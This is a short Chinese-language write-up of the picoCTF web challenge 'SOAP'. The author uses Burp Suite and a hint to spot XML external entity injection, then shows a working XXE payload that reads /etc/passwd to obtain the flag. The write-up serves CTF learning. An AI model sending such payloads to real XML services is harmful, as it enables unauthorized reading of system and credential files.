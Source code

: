 ```yaml
---
title: SOAP
published: 2025-07-11
description: "picoCTF"
image: ""
tags: ["CTF Writeup", "picoCTF", "Web"]
category: "picoCTF"
draft: false
---
```


# SOAP

題目說要讀 `/etc/passwd`

![index](/assets/picoCTF/SOAP/image-3.png)

按下 `Detail` 可以發現下方會跑出文字，是透過送出不同的 id 改變得到的內容，但如果改成除了 1、2、3 以外的 id 就會顯示 invaild

![form](/assets/picoCTF/SOAP/image.png)

有點沒有頭緒看了一下提示，提示是 `XML external entity Injection`

開 `Burp Suite` 觀察一下就會發現這是提示說的 XML 格式，並且允許定義 DOCTYPE 和 External Entity

![Burp Suite](/assets/picoCTF/SOAP/image-1.png)

把原本送出的 id 改掉

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>
```

成功讀取 `/etc/passwd` 並得到 flag

![flag](/assets/picoCTF/SOAP/image-2.png)
